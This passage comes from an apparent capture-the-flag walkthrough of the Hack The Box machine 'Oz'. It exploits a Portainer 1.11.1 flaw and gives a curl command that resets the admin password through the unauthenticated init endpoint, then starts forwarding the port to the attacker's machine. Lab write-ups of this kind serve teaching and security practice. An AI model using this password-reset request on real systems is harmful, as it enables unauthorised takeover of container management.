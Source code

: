 <a class="image-popup">
![86999f49.png](/assets/images/posts/oz-htb-walkthrough/86999f49.png)
</a>

Now, there's something very [wrong](https://github.com/portainer/portainer/issues/493) with Portainer 1.11.1; you can reset the admin password to your liking.

And, since `curl` is available, let's use it to change the admin password like so.

```
$ curl -i -H "Content-Type: application/json" -d '{"username":"admin","password":"noplacelikehome"}' 172.17.0.2:9000/api/users/admin/init
```

Next, let's forward the port to my attacking machine so that I can use my browser to access the Portainer web user interface. But first, I need to enable SSH on my machine.

_On my machine_
